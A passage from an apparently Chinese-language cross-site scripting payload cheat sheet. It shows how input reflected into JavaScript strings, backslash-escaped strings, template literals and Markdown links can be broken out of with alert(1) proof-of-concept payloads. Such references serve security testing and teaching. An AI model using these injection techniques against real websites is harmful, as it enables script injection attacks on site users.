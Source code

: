 * 示例源代码

```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```

* 输入Payload后

```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```

> 负载2用于在引号被反斜杠转义的情况下使用

* 输入Payload后

```html
<script>
    var sitekey = '\'alert(1)//';
</script>
```

10. 当输入位于反引号定界字符串内时使用。

```html
${alert(1)}
```

* 示例源代码

```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```

* 输入Payload后

```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

11. 在Markdown中使用。

```html
[Click Me](javascript:alert('1'))
```

